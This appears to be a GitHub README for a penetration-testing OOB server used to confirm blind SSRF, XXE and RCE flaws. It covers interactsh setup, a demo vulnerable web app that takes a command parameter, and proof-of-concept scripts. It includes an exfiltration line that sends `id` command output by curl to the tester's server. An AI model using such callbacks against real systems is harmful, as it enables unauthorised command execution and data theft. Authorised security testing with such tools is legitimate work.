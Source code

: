 # OOB Server for blind vulns
* Reference:
  
  https://notsosecure.com/out-band-exploitation-oob-cheatsheet
  
* Perfect OOB server project:
```
https://github.com/projectdiscovery/interactsh

[+] ON OOB SERVER (10.0.0.10)
SHELL$ wget https://github.com/projectdiscovery/interactsh/releases/download/v1.1.9/interactsh-client_1.1.9_linux_amd64.zip

SHELL$ cat oob.sh
./interactsh-client -s oast.me -ps  &
python3 -m http.server 8888

SHELL$ chmod a+x oob.sh;./oob.sh

[+] ON CLIENT (Test Machine)
SHELL$ curl 10.0.0.10:8888/interactsh_payload.txt
cntge6do4021ee5lcht0mnz1zbyh4zsnj.oast.me

THE PAYLOAD LINK 'cntge6do4021ee5lcht0mnz1zbyh4zsnj.oast.me' can be use as blind payload, such as SSRF/XXE/RCE/Deserialization

```

----
# FOR THIS TOOL
## How to use?
## server.py
1. change HOST and PORT to your own OOB server's IP address and listen port.
2. start up the OOB server:
```bash
shell$ python3 server.py
```

### Simple Validation:
  
when client to access:
```
http://oob_server:port/geturl
```
the OOB server will generate and response a random URL like:
```
http://oob_server:port/iF9d2k
```
when client to access this random URL, it will create a txt file and logging client's IP.\
and client can access `random_url?m=1` to check this
```
http://oob_server:port/iF9d2k?m=1
```

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/c1880071-2ccb-4d70-ad39-fa649ec9cb34)

### Record Execution Result:
  
when pentester wants to gain the executed result of OS command, can send:
```
curl http://oob_server:port/`id`
```
and then to access following URL to get result:
```
http://oob_server:port/checklog
```
![image](https://github.com/NinjaGPT/oob_server/assets/4035112/14d1c6a4-bfbb-4ef3-b10d-afa074a9ea6a)

## victim.py
a demo of vulnerable Web application.
```
http://victim.com:port/vuln
POST
cmd={command}
```
<img width="633" alt="image" src="https://github.com/NinjaGPT/oob_server/assets/4035112/b1cf3229-c818-4dec-bacc-a948a0bec62b">

## poc.py
Simple Validation POC

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/6f5f7cee-b56d-4b93-9ade-dcb2d5c481f6)


## response_poc.py
Gain Execution Result POC

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/245b8e28-1587-4821-b11b-4efed3d1a78f)
